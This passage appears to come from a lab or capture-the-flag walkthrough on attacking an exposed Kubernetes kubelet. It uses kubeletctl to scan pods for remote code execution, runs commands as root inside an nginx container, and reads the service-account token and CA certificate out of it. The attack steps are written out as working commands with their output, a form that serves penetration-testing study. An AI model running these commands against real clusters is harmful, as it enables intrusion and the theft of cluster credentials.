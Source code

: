 ```shell
$ kubeletctl -i --server 10.129.10.11 scan rce

┌─────────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                   Node with pods vulnerable to RCE                                  │
├───┬──────────────┬────────────────────────────────────┬─────────────┬─────────────────────────┬─────┤
│   │ NODE IP      │ PODS                               │ NAMESPACE   │ CONTAINERS              │ RCE │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│   │              │                                    │             │                         │ RUN │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 1 │ 10.129.10.11 │ nginx                              │ default     │ nginx                   │ +   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 2 │              │ etcd-steamcloud                    │ kube-system │ etcd                    │ -   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
```

#### Executing Commands

- **Kubeletctl**

```shell
$ kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx

uid=0(root) gid=0(root) groups=0(root)
```
current user executing the id command inside the container has root privileges. which could potentially lead to privilege escalation vulnerabilities. 


If we gain access to a container with root privileges, we can perform further actions on the host system or other containers.

#### Extracting Tokens

```shell
$ kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```

#### Extracting Certificates

```shell
$ kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```
